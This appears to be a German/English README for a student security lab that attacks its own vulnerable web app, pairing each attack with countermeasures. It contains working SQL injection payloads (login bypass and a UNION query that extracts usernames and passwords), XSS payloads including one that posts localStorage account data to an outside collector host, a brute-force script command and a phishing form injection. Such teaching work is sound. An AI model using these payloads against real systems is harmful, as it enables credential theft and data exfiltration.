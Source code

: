 # SQL Injections
1. Um einen Hinweis darauf zu erlangen, wie die SQL-Query aussieht, welche für den Login verwendet wird kann man `"` in das login-feld eingeben. Aus dem Error, kann dann die Query entnommen werden.
2. Mit dem erlangten Wissen kann nun der Angriff durchgeführt werden, indem folgendes 
`" OR 1 = 1 # ` in das login-Username feld eingetragen wird. Hierdurch kann man sich einloggen ohne credentials zu nutzen.

### Union Attack 
1. Die verwendete Query, für die Suche, kann herausgefunden werden, indem man `%'` in das suchfeld postet. Man bekommt hier dann eine Fehlermeldung zurück welche einem einen Hinsweis darauf gibt, wie die SQL-Query aussieht die verwendet wird.
2. Für einen "UNION" befehl müssen die Select-Statements derer Ergebnisse zurück gegeben werden sollen, die gleiche Anzahl an Columns haben. Um herauszufinden wie viele columns in dem table (Thread Table) sind der von der Suchfeld-query aufgerufen wird kann folgende query verwendet werden: `%' ORDER BY 4-- `. Die Zahl sollte immer weiter eröht werden, bis ein Error zurück gegeben wird. Sobald das geschieht weiß man dass die verwendete Zahl minus Eins die Anzahl der Columns ist.
3. Weiß man nun also wie viele Columns in dem table enthalten sind kann man die query für die Union-Attack formulieren:
`%' UNION SELECT NULL, username, passw, NULL, NULL FROM Users -- `, wobei die die Anzahl der "NULL" + die Anzahl der gewollten column-names der vorher herausgefundenen Anzahl der Columns entsprechen muss. Das Ergebnis hieraus ist, dass man die normalen Ergebnisse der Such-Query mit dem Select-Statement für den Users Table verbindet um nicht nur die Threads von der Datenbank zurück zu bekommen, sondern eben auch die Ergebnisse aus dem Users Table. In unserem Fall würden wir also auch Ergebnisse aus den "username" und "passw" columns des Users Table zusammen mit den Threads zurück geliefert bekommen.

## Maßnahmen
Escaping and query values:
https://github.com/mysqljs/mysql#escaping-query-values (Placeholders: https://mariadb.com/kb/en/connector-nodejs-promise-api/)


# Cross-Site Scripting
Reflected XSS
Insert <script>alert();</script>
https://www.imperva.com/learn/application-security/reflected-xss-attacks/#:~:text=Reflected%20XSS%20attacks%2C%20also%20known,enables%20execution%20of%20malicious%20scripts.
https://www.youtube.com/watch?v=T0vxdqvW9fU&list=LL&index=3
```js
<script>alert(document.cookie); </script>
<img src="http://url.to.file.which/not.exist" onerror= document.body.innerHTML = "<h1>You got hacked</h1>">
<img 
  src="https://jnx.me/img/profile.jpg" 
  style="display:none" 
  onload="fetch('https://enj917gkdfyp.x.pipedream.net/', {method: 'POST', body: localStorage.getItem('account')})"
>
```

## Maßnahmen
https://v2.vuejs.org/v2/guide/security.html#:~:text=The%20most%20fundamental%20security%20rule%20when%20using%20Vue,during%20server-side%20rendering.%20An%20example%20of%20such%20usage%3A

https://www.npmjs.com/package/sanitize-html

# Brute-force attack
Is possible because we do not check how many requests have been sent by one user

To start the brute-force script navigate to the "Attacks" directory and preform the following command:

```
python -m pip install selenium
python brute-force.py -u admin -t http://localhost:8081/loginPage -p passwords.txt
```

## Maßnahmen
Using a rate limiter: https://www.npmjs.com/package/express-rate-limit

# Broken Encryption
Möglich wegen veraltetem Hashalgorythmus (SHA256) und weil kein Salt verwendet wird sind alle hashes deterministisch. Dadurch ist das verwenden eines Rainbowtables möglich.

## Maßnahmen
Using bcrypt for hashing passwords: https://en.wikipedia.org/wiki/Bcrypt

# HTML Injections
(Phishing)
```html
<h3>Please login to proceed</h3>
<form action=http://www.google.com>
Username:<br>
<input type="username" name="username"></br>
Password:<br>
<input type="password" name="password"></br>
<br>
<input type="submit" value="Login"></br>
```

## Maßnahmen
https://www.npmjs.com/package/sanitize-html
